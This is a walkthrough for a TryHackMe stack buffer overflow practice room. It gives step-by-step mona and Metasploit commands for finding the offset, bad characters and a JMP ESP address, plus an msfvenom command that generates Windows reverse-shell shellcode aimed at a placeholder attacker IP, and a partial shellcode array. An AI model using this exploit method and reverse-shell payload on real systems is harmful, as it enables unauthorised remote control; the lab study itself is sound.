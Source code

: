 Stack Based Buffer Overflow Walkthrough
I will be using Tib3rius's Buffer Overflow Prep on TryHackMe for practise. Link to room: https://tryhackme.com/room/bufferoverflowprep

Mona Configuration
Run the following command on Immunity Debugger to make the process easier:

!mona config -set workingfolder c:\mona\%p
Fuzzing
Open the application you are targetting on Immunity Debugger and hit start
Run fuzzer.py to identify the point that causes the application to crash
Note down the crash point of the application
Offset
To identify the offset to the EIP address, we can generate a string with the pattern_create module from Metasploit. Add 40 to the crash point found.

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [crash point + 40]
Then,

Copy the output and place it in the payload variable of exploit.py.
Run the script and it should crash the application again.
Change the distance to the same length of the pattern you created and run the command on Immunity Debugger:
!mona findmsp -distance  [crash point + 40]
Mona will display the output of the command, or click "Window" menu and then "Log data" to view it. Find a line that states EIP contains normal pattern : ... (offset XXXX) Note down the offset and make the following changes to exploit.py script:

Update the offset variable
Set the payload variable to an empty string
Set the retn variable to BBBB
Restart the application in Immunity Debugger and run the modified script. The EIP register should now be overwritten with B's: 42424242

Finding Bad Characters
Using Mona, we can generate a byte array and exclude the null byte,\x00, by default. Execute the following command:

!mona bytearray -b "\x00"
Then, follow these steps:

Execute badchars.py to generate a string of bad chars from \x01 to \xff.
Update exploit.py and set the payload variable to the string created.
Restart the application in Immunity Debugger and run the script again.
Copy the address to which the ESP register points and use it in the following command:
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
A mona Memory comparison results window will appear indicating the characters that are different in memory to what they are in the generated bytearray.bin file. Not all of these might be bad characters as sometimes:

Bad characters cause the next byte to get corrupted
Bad characters cause the rest of the string to get corrupted
Make a note of the bad characters and do the following:

Generate a new byte array in mona, specifying these new bad characters along with \x00
Remove the new bad characters in the payload variable in exploit.py
Restart the application in Immunity Debugger and run the script again. Repeat the process until the results status returns Unmodified. This indicates that there are no more bad characters.

Finding a JMP point
Run the following command in Immunity Debugger with the application running or in a crashed state. Ensure that all the bad characters identified are added in.

!mona jmp -r esp -cpb "\x00"
The results should display in the 'Log data' window. Choose an address and update it in exploit.py by setting the retn variable to the address written backwards. For example, if the address found is \x01\x02\x03\x04, write \x04\x03\x02\x01 in exploit.py.

Generate a Payload
We can finally generate our shellcode excluding the bad characters found:

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
Insert the string added to the payload variable in exploit.py in the following format:

payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
Ensure to place an open bracket at the start, and a close bracket at the end.

Prepend NOPs
An encoder was used to generate the payload. Thus, some space in memory is needed for the payload to unpack itself. Ensure this happens by assigning the following string to the padding variable:

padding = "\x90" * 16
Exploit
Start a Netcat listener on Kali
Restart the application in Immunity Debugger
Run exploit.py
You should catch a reverse shell!
